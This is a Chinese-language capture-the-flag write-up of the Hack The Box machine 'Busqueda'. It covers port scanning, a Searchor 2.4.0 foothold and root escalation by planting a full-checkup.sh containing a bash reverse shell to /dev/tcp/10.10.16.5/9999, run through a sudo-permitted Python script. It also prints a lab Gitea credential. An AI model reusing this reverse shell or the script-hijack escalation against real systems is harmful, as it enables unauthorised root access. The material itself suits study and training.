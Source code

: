 ```yaml
---
{"dg-publish":true,"permalink":"/hackthebox/htb-busqueda/","tags":["靶场","打靶","hackthebox"]}
---
```



![image.png](https://s2.loli.net/2025/07/06/zruMbdet2ZaU8gS.png)

![image.png](https://s2.loli.net/2025/07/07/yCtNrueFaqf15lH.png)
[[思/Busqueda 思\|Busqueda 思]]
## 扫描端口
![image.png](https://s2.loli.net/2025/07/06/Mtv6G1fBUDFwuLo.png)

有一个 80 端口和 22 端口
## 80 端口服务
![image.png](https://s2.loli.net/2025/07/06/BlVvdpnjcL9QbsU.png)

![image.png](https://s2.loli.net/2025/07/06/8VCB1Z3PfHQSIs9.png)

这个步骤可能是个关键点

随便写一个 xss 进去看看
![image.png](https://s2.loli.net/2025/07/06/B5pXikmzL2OdRsE.png)


![image.png](https://s2.loli.net/2025/07/06/TqgI47jLxNkKWCE.png)

只有这样的显示

在底下发现有个 Searchor 2.4.0 ，可能是利用 cms
![image.png](https://s2.loli.net/2025/07/06/Cp4xthW6YBE5oFa.png)

![image.png](https://s2.loli.net/2025/07/06/14EUjV6FbcQeLWI.png)


![image.png](https://s2.loli.net/2025/07/07/fFnGhyKYHWNjs8w.png)

获得反弹 shell
![image.png](https://s2.loli.net/2025/07/07/FUDYjS5Ze9VA3qw.png)

![](https://s2.loli.net/2025/07/07/QFSj5cUbuev8Gri.png)
找到 user. txt
## 提权
用一手 linpeas 进行信息收集

发现蛮多隐藏文件的，其中 git 的文件引人注目
![image.png](https://s2.loli.net/2025/07/07/tHSqUbdaeoxcNk2.png)

![image.png](https://s2.loli.net/2025/07/07/AQsn9fMjT3rJdc4.png)

在查看进程中也时不时就找到/var/www/app这个目录，可能里面有东西

![image.png](https://s2.loli.net/2025/07/07/jaKfFXiwWHT1GQb.png)

刚好在/var/www/app中有个值得关注的东西，佐证了我们的想法

先一个一个看 gitconfig 告诉我们有个邮箱和名字
![image.png](https://s2.loli.net/2025/07/07/R8xCZAwTlaq4uB7.png)

在. git 的文件夹中
![image.png](https://s2.loli.net/2025/07/07/RriB1pwnLG4VyYm.png)

这里面的 index 有 root 权限

配置文件告诉我们有个 gitea 的子域名
![image.png](https://s2.loli.net/2025/07/07/WRQ9TmeDJG5XM2i.png)

配置文件中的这一串就是账密
```
cody:jh1usoih2bkjaspwe92
```

![image.png](https://s2.loli.net/2025/07/07/ujyUwQPnN1BvqoC.png)

登录成功，但我是看不出里面有啥好东西，至少找到了 svc 用户的密码

![image.png](https://s2.loli.net/2025/07/07/GjfcEB27e5lvTb6.png)

查看到 sudo -l 的东西

![image.png](https://s2.loli.net/2025/07/07/8lPKiJFYhs7xDcm.png)

docker ps 查看容器
![image.png](https://s2.loli.net/2025/07/07/BtLO97hquVDXT3S.png)

docker-inspect
```
sudo python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config}}' gitea |jq .
```

![image.png](https://s2.loli.net/2025/07/07/Vq5rkRoxHUbml7s.png)

找到个账户密码，试试能不能登录 administer

成功登录
![image.png](https://s2.loli.net/2025/07/07/NvVDEzo4AQTJy26.png)

检查一下 system-checkup. py 脚本

![image.png](https://s2.loli.net/2025/07/07/tiYxf3vjhPF4sOm.png)

在这里有个用 full-checkup. sh ，可以利用这个地方，钻个空子

### 修改脚本 反弹 shell
看了 wp，说是新建full-checkup. sh，在里面添加了反弹 shell，就能反弹到 root 权限的反弹 shell
```
svc@busqueda:/tmp$ cat full-checkup.sh
cat full-checkup.sh
#!/bin/bash
bash -i >& /dev/tcp/10.10.16.5/9999 0>&1

svc@busqueda:/tmp$ chmod +x full-checkup.sh
chmod +x full-checkup.sh

svc@busqueda:/tmp$ sudo python3 /opt/scripts/system-checkup.py full-checkup
sudo python3 /opt/scripts/system-checkup.py full-checkup

```

![image.png](https://s2.loli.net/2025/07/07/k3g4tbSFUOZeXKE.png)

获得 root反弹 shell

![image.png](https://s2.loli.net/2025/07/07/dqotP9BRlrcEIT8.png)
